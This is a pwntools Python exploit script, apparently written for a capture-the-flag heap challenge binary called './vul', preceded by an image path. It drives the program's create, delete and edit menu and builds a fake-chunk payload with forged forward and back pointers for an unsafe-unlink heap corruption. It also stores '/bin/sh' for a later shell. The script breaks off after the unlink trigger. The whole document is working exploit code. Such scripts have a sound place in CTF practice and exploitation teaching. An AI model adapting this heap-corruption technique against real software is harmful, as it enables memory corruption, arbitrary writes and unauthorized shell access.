 from pwn import *

p = process('./vul')
elf = ELF('./vul')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

#context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
#gdb.attach(proc.pidof(p)[0])

#context.log_level = 'debug'

def welcome():
    p.recvuntil('name: \n$')
    p.send('p')

def create(index, size, content):
    p.recvuntil('$ ')
    p.send('1')
    p.recvuntil('input lenght: \n')
    p.send(str(size))
    p.recvuntil('input exp index: \n')
    p.send(str(index))
    p.recvuntil('Input content: \n')
    p.send(content)

def delete(index):
    p.recvuntil('$ ')
    p.send('2')
    p.recvuntil('Chose one to delete: \n')
    p.send(str(index))

def edit(index, content):
    p.recvuntil('$ ')
    p.send('3')
    p.recvuntil('chose one to edit: \n')
    p.send(str(index))
    p.recvuntil('Input Content: \n')
    p.send(content)

if __name__ == '__main__':
    puts_plt = elf.symbols['puts']
    puts_got = elf.got['puts']
    free_got = elf.got['free']
    x_pointer = 0x602130 # pointer to index 1


    welcome()
    create(0, 0x20, 'junkdata')
    create(3, 0x20, '/bin/sh\x00')
    create(1, 0x100, '1111')
    create(2, 0x100, '2222')
    delete(1)
    delete(2)

    payload1 = p64(0) + p64(0x101) + p64(x_pointer-0x18) + p64(x_pointer-0x10) + 'A'*(0x100 - 32) + p64(0x100) + p64(0x210-0x100)
    create(1, 0x210, payload1)
    delete(2)
